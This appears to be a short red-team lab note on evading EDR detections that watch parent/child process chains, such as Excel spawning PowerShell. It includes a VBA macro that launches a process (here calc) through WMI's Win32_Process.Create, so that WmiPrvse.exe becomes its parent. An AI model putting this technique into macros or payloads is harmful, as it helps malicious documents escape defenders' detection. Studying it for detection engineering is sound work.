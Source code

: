 # Bypassing Parent Child / Ancestry Detections

Defenders often will look engineer detections based on parent/child process relationships - i.e Excel spawns powershel - suspicious.

This lab is mostly based on the techniques discussed on [https://www.countercept.com/blog/dechaining-macros-and-evading-edr/](https://www.countercept.com/blog/dechaining-macros-and-evading-edr/)

Below are some techniques showing how those type of detections could be bypassed. 

## Spawning via WmiPrvse.exe using wmi

{% code-tabs %}
{% code-tabs-item title="macro.vba" %}
```javascript
Set objWMIService = GetObject("winmgmts:{impersonationLevel=impersonate}!\\.\root\cimv2")
Set objStartup = objWMIService.Get("Win32_ProcessStartup")
Set objConfig = objStartup.SpawnInstance_
Set objProcess = GetObject("winmgmts:root\cimv2:Win32_Process")
errReturn = objProcess.Create("calc", Null, objConfig, intProcessID)
```
{% endcode-tabs-item %}
{% endcode-tabs %}
